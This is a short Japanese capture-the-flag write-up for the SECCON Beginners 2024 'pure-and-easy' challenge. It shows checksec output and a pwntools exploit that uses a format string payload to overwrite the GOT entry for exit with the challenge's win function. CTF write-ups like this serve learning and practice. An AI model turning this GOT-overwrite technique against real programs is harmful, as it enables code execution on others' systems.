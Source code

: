 # Format String Bug
- https://feneshi.co/ctf4b2024writeup/#pure_and_easy
- [fmtstr_payloadを紐解いて書式文字列攻撃を理解する #脆弱性 - Qiita](https://qiita.com/mae_t/items/91a82f8efe361305c29b)
- https://docs.pwntools.com/en/stable/fmtstr.html
# 解法
```
pwndbg> checksec
File:     /mnt/e/work/ctf/SECCON_Beginners_CTF_2024/pwnable/pure-and-easy/chall
Arch:     amd64
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
- Partial RELRO は GOT overwrite が使える
```python
#!/usr/bin/env python3
from pwn import *
exe = context.binary = ELF('./chall')
io = process([exe.path])
# io.sendlineafter(b'>', b"A"*8 + b",%p"*20)
io.sendlineafter(b'> ', fmtstr_payload(6, {
    exe.got['exit']: exe.symbols['win']
}))
log.info(io.recvall().decode(errors='ignore'))
```
